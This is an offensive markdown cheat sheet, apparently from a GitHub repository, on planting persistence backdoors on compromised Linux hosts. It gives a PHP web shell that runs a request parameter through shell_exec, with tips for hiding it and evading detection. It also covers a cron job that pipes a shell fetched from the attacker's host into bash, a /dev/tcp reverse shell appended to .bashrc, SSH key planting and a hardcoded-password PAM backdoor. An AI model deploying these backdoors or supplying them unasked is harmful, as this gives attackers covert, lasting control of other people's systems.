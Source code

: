 # Backdoor 
p
## backdoor using ssh
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.
- ssh backdoor 
	```
	ssh-keygen
	```
	- Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys
	- give the private key the right permissions using : chmod 600 id\_rsa

## PHP backdoor
you can try creating a php file with any name and putting inside this piece of code

- php backdoor code
	```php
	<?php  
    if (isset($\_REQUEST\['cmd'\])) {  
        echo "<pre>" . shell\_exec($\_REQUEST\['cmd'\]) . "</pre>";  
    }  
	?>
	```
	
**tips**
1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## cronjob backdoor
this backdoor consist of creating a cronjob!
take a look at your cronjobs file, which is /etc/cronjob
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.
- crontab script
	```
	* *     * * *   root    curl http://<yourip>:8080/shell | bash
	```
	Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

	We first use "curl" to download a file , and then we pipe it to "bash"

	The contents of the "shell" file that we are using are simply :
	```bash
	#!/bin/bash 
	bash -i >& /dev/tcp/ip/port 0>&1
	```
	We would have to run an HTTP server serving our shell.

	You can achieve this by running : "python3 -m http.server 8080"  
	Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!
	Don't forget to listen on your specified port with "nc -nvlp <port>"
	
## .bashrc backdoor
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
One important thing is to always have your nc listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

## pam unix 
	We can see that we added a new line to our code : "if (strcmp(p, "0xMitsurugi") != 0 )"

Okay, if this code looks confusing to you at first, don't worry!

We'll break it down together!

So first, we have to know what the function "strcmp" does.

This function basically compares 2 strings.

In the screenshot above, we compare the variable "p" and the string "0xMitsurugi".

The variable "p" stands for the user's supplied password. In other words, the password that the user-supplied.

You can also see "!=0" at the end of the statement. This means "if not successful". So, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are NOT the same... the function "unix\_verify\_password" will be used.

But on the other hand, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are the same, the authentication is a success. We mark the success by using "PAM\_SUCCESS;"

So this backdoor essentially consists of adding your own password to "pam\_unix.so"

Since you know the password that you added into the file, you will always be able to authenticate with that password until it's removed from "pam\_unix.so"

So let's do a little recap:

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix\_verify\_password" function. When using the "unix\_verify\_password" function to authenticate, the function takes

the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work.

However, this technique is called a backdoor as you add your own password that you can always use as long as nobody takes it out of "pam\_unix.so".

This backdoor is really hard to spot, as once again, nobody really thinks about looking into such files.

Since this method is slowly becoming more and more popular, you probably won't be able to do it every time, as everybody would slowly but surely, understand how to protect themselves.

Resource used : [http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

Here is a GitHub repository containing a script automating this process of creating a backdoor: [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
	

	
	

